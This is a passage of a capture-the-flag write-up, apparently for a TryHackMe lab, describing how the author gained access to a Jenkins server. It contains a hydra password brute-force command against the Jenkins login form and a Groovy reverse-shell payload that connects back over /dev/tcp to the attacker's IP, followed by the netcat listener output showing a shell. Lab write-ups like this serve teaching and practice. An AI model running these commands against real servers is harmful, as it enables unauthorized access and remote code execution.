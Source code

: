Now we should be able to access the jenkins server from our browser to our assigned port.

![image](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/b8170aac-4baa-4b56-9d41-0d2dcd4999ea)

It worked !
Now the login part. 

We tried using aubreanna's credentials to login but failed, we took some time to find the login credintials within the aubreanna's SSH but couldn't find anything. After conducting further research on jenkin server. A quick seach says that most jenkins default credentials is admin as the username. So we took this chance and performed a bruteforce attack on the password. 

We're going to use hydra for this. First we need the variables HTTP/POST request by using burpsuite.

![19 burp](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/76ebaafe-7cf6-43f3-87dc-b1e7e8141a7d)

We got the parameter, circle in red is how the login parameters respond

Hydra time !!!!!!!!

```shell
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 4444 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login:Invalid username or password" 
```
![Capture](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/83f276f2-2cb8-42cc-9636-97a3554c5fa8)

lol nice password :)

We're in the server. So with jenkins have a script console for any code execution so we can use that to create a reverse shell. Finding out that jenkins is java, we'll use the Groovy script by pentestingmonking.

![20 script consol](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/43d03f9a-fe69-4ae8-bdc4-ae2abda25f19)


```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<My IP>/5555;cat<&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

Create a netcat listener 

```shell
$ nc -lvnp 5555 
listening on [any] 5555 ...
connect to [My IP] from (UNKNOWN) [10.10.42.84] 35436
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
/bin/bash -i
bash: cannot set terminal process group (6): Inappropriate ioctl for device
bash: no job control in this shell
jenkins@jenkins:/$
```
